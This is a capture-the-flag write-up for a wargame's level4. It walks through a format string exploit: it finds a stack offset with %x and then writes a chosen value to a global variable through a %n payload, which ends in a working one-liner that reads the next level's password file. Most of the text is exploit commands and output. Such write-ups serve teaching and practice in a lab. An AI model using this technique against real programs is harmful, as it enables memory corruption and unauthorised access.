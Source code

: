 It's a format string attack again. We have to overflow over a printf called in an annexe function `p()` to change the value of `m` to access a system call that will print our flag.

```
   0x08048488 <+49>:	call   0x8048444 <p>
   0x0804848d <+54>:	mov    eax,ds:0x8049810
   0x08048492 <+59>:	cmp    eax,0x1025544
```

We need to set the value of `m` at the address `0x8049810` to `0x1025544`. 

Let's print a bunch of characters and a bunch of addresses thanks to the `%x` specifier (hexadecimal values) that causes the stack pointer to move towards the format string as `printf` considers them as arguments.

```
(gdb) r <<< $(python -c "print 'A' * 20 + '%x ' * 20")
Starting program: /home/user/level4/level4 <<< $(python -c'print "A" * 20 + "%x " * 20')
AAAAAAAAAAAAAAAAAAAAb7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 41414141 41414141 41414141 41414141 25207825 78252078 20782520 25207825
```

It overflows at offset 12 and we can reach that value by writing `%12\$x` after the format string. Now, we want to write our target address `m => 0x8049810` at this place.

```
(gdb) r <<< $(python -c "print '\x10\x98\x04\x08' + '%12\$x'")
Starting program: /home/user/level4/level4 <<< $(python -c "print '\x10\x98\x04\x08' + '%12\$x'")
8049810
```

And like in level3, we have to give it the value `0x1025544 = 16930116`. `16930112` because of mention of the redirection address before.

```
(gdb) r <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"')
...
 -1208015184
/bin/cat: /home/user/level5/.pass: Permission denied
```

in a terminal :
$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4

It takes some times but it works...